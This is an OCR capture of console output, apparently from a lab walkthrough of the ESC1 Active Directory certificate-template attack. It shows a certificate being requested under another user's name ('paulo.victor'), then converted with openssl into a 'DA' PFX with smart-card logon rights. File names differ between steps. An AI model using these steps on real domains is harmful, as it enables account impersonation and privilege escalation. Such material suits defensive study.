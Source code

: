 ```powershell
    [*] Action: Request a Certificates

    [*] Current user context    : CORP\danielmoura
    [*] No subject name specified, using current context as subject.

    [*] Template                : CORP - Kerberos Authentication
    [*] Subject                 : CN=Daniel Moura, OU=Usuarios, OU=Inferi, DC=CORP, DC=LOCAL
    [*] AltName                 : paulo.victor

    [*] Certificate Authority   : CORP-DC.CORP.LOCAL\CORP-CA

    [*] CA Response             : The certificate had been issued.
    [*] Request ID              : 21

    [*] cert.pem         :

    -----BEGIN RSA PRIVATE KEY-----
    MIIEowIBAAKCAQEAveH2b8bqL7smcl...

    -----END CERTIFICATE-----


    [*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

```

```powershell
C:\Tools\openssl\openssl.exe pkcs12 -in esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc1-DA.pfx

    Enter Export Password:
    Verifying - Enter Export Password:

    Get-PfxCertificate -FilePath .\sora-DA.pfx | select *

    EnhancedKeyUsageList : {Client Authentication (1.3.6.1.5.5.7.3.2), Server Authentication (1.3.6.1.5.5.7.3.1), Smart Card Logon (1.3.6.1.4.1.311.20.2.2), KDC Authentication (1.3.6.1.5.2.3.5)}
    DnsNameList          : {Daniel Moura}
    SendAsTrustedIssuer  : False
    Archived             : False
    Extensions           : {System.Security.Cryptography.Oid, System.Security.Cryptography.Oid, System.Security.Cryptography.Oid, System.Security.Cryptography.Oid...}
    FriendlyName         :
    IssuerName           : System.Security.Cryptography.X509Certificates.X500DistinguishedName
    NotAfter             : 1/10/2026 11:43:37 PM
    NotBefore            : 1/10/2025 11:43:37 PM
    HasPrivateKey        : True
    PrivateKey           : System.Security.Cryptography.RSACryptoServiceProvider
    PublicKey            : System.Security.Cryptography.X509Certificates.PublicKey
    RawData              : {48, 130, 5, 233...}
    SerialNumber         : 54000000150B74ED4CF8ADD060000000000015
    SubjectName          : System.Security.Cryptography.X509Certificates.X500DistinguishedName
    SignatureAlgorithm   : System.Security.Cryptography.Oid
    Thumbprint           : 1DD7B7333ECCF32A83DB5C86CEA9B80B0833C285
    Version              : 3
    Handle               : 2734492773680
    Issuer               : CN=CORP-CA, DC=CORP, DC=LOCAL
    Subject              : CN=Daniel Moura, OU=Usuarios, OU=Inferi, DC=CORP, DC=LOCAL
```
